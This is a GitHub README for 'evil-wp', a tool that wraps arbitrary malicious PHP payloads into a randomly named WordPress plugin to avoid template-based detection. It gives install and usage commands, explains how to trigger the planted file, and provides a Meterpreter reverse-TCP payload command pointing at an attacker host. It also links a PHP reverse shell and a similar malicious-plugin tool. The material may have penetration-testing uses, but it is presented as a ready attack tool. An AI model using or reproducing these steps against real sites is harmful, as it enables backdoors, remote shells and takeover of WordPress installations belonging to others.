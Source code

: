 # evil-wp
This is a small project to wrap malicous PHP payloads into a WordPress plugin.

Random name generation is thrown in for fun and a slight attempt at reducing detection by template pattern matching.

## Pre-Requisites
This attack requires the ability to install plugins to the target WordPress installation.

## Installation
To install this simple tool, clone this repository and use pip to install the requirements.

``` bash
$ git clone https://github.com/svespie/evil-wp
$ cd evil-wp
$ pip install -r requirements.txt
```

Consider using a virtual environment as a matter of best practice.

## Usage
``` bash
$ python evil-wp.py -h
$ python evil-wp.py -n <plugin_name> -p "<payload>"
```

* the plugin name should be unique to the installation being attacked
* the payload can be any valid PHP code
* once installed and enabled, navigate to the plugin file to trigger the payload (/wp-content/plugins/<plugin_name>/<script_name>.php)


## Example Payload Generation
msfvenom is a great place to start with for generating PHP payloads.

``` bash
$ msfconsole -p php/meterpreter/reverse_tcp LHOST=<attacker_host> LPORT=<listening_port> -e php/base64 -f raw
```

Any valid PHP will work, including traditional PHP reverse shell payloads such as this one: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

Note: the payload is inserted into a PHP template. There is no need to include PHP opening and closing tags.

Good luck!

## Similar Projects
* https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py (a nifty tool that automates meterpreter use but with less payload flexibility)